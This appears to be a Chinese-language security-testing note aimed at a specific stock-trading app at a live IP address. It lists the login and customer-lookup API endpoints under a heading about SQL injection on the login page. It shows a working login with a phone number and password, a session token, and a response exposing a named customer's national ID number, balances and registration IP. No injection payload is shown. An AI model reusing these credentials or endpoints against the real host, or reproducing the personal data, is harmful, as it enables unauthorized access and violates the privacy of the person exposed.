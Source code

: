 登录地址： http://117.149.243.239:9099/app/pages/login/index


登录接口： http://117.149.243.239:9099/apiApp/app/login

登录页面--sql注入

正确的登录

```
POST http://117.149.243.239:9099/apiApp/app/login

payload
{"loginName":"15711320691","loginPwd":"alison123"}

返回
{
    "msg": "操作成功",
    "code": 200,
    "productSetting": [
        {
            "id": 1,
            "szStockDisplay": true,
            "shStockDisplay": true,
            "kcStockDisplay": true,
            "cyStockDisplay": true,
            "bjsStockDisplay": true,
            "realNameDisplay": true,
            "stockMarginDisplay": false,
            "holidayDisplay": true,
            "buyFallDisplay": false,
            "checkPriceDisplay": false,
            "zeroNewApplyDisplay": false,
            "leverDisplay": false
        }
    ],
    "token": "27f9f409-4996-434f-976f-37a644b9de3e"
}

```

#### 获取用户

```
GET http://117.149.243.239:9099/apiApp/app/customer/getCustomerByName?loginName=15711320691
请求头：
    Token: e560b504-7a43-4db0-b312-79f012fc101b

返回
{
    "msg": "操作成功",
    "code": 200,
    "data": {
        "id": 6952,
        "agentId": 10413,
        "agentName": "四组",
        "loginName": "15711320691",
        "nickName": "新客",
        "realName": "黄勇",
        "idCard": "362228199207014015",
        "accountType": 1,
        "userAmt": 207756.80,
        "enableAmt": 0.14,
        "isLock": false,
        "isLogin": true,
        "regTime": "2023-06-28T12:08:37.000+0800",
        "regIp": "223.72.66.6",
```